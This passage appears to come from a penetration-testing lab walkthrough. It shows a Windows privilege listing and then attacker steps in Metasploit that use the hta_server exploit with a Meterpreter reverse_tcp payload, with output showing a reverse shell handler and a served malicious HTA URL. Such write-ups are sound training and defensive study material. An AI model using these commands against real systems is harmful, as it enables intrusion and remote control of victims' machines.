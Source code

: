 ```
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 
```

_Exit the session on the target machine._

`exit`

<span style="color: #e57373;">**Attacker machine**</span>.

_Launch Metasploit to set up an attack payload._

`msfconsole -q`

_Search for and use the HTA server exploit to deliver a malicious payload to the target._

`search hta server`, `use exploit/windows/misc/hta_server`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `exploit`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.42.2:4444 
[*] Using URL: http://0.0.0.0:8080/KKzmhzEYG9UrQdy.hta
[*] Local IP: http://10.10.42.2:8080/KKzmhzEYG9UrQdy.hta ←
[*] Server started.
```
